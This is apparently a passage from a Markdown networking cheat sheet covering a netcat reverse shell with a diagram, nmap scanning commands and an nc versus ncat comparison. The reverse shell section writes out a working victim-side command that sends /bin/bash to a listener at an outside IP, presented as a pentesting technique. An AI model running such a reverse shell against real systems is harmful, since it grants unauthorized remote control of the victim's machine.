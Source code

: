 
### Reverse Shell with `netcat` [🔝](#table-of-contents)

> 🧬 **Diagram: How a Reverse Shell Works**
>
```text
+----------------+        Connects to       +------------------+
|   Victim Host  | -----------------------> |  Attacker (nc -l) |
| nc attacker_ip |                          |   Listening Shell |
+----------------+                          +------------------+
       ^                                               |
       |  Executes /bin/bash over the network          |
       +-----------------------------------------------+
```


> A reverse shell allows a target machine to connect back to the attacker's listener and give shell access. This is often used in pentesting.

```bash
# Attacker (listening for connection): [🔝](#table-of-contents)
nc -lvnp 4444

# Victim (connects to attacker and gives shell): [🔝](#table-of-contents)
nc 192.168.1.5 4444 -e /bin/bash
```

> ⚠️ This only works with traditional `netcat`. Some versions (like `ncat`) use different flags. Ensure it supports `-e`.

---

### `nmap` – Network Scanner & Security Tool [🔝](#table-of-contents)

> `nmap` is a powerful network scanning tool used to discover hosts and services on a network.

```bash
nmap 192.168.1.1                 # Scan a single IP
nmap 192.168.1.0/24              # Scan a subnet
nmap -p 22,80,443 192.168.1.10   # Scan specific ports
nmap -sV -A 192.168.1.10         # Detect OS and running services
```

> 🔍 Use `nmap` to detect live hosts, open ports, and service versions. Great for recon and troubleshooting.

---

### 🧾 `nc` vs `ncat` Feature Comparison [🔝](#table-of-contents)

| Feature                 | `nc` (netcat)         | `ncat` (from Nmap)       |
|------------------------|------------------------|---------------------------|
| Basic TCP/UDP I/O      | ✅ Yes                 | ✅ Yes                    |
| File Transfer          | ✅ Yes                 | ✅ Yes                    |
| Listen Mode            | ✅ Yes (`-l`)          | ✅ Yes                    |
| Execute Program (`-e`) | ✅ Yes (in traditional)| ❌ Disabled for security   |
| SSL Support            | ❌ No                  | ✅ Yes (`--ssl`)           |
| IPv6 Support           | ⚠️ Varies              | ✅ Yes                    |
| Built-in with Nmap     | ❌ No                  | ✅ Yes                    |
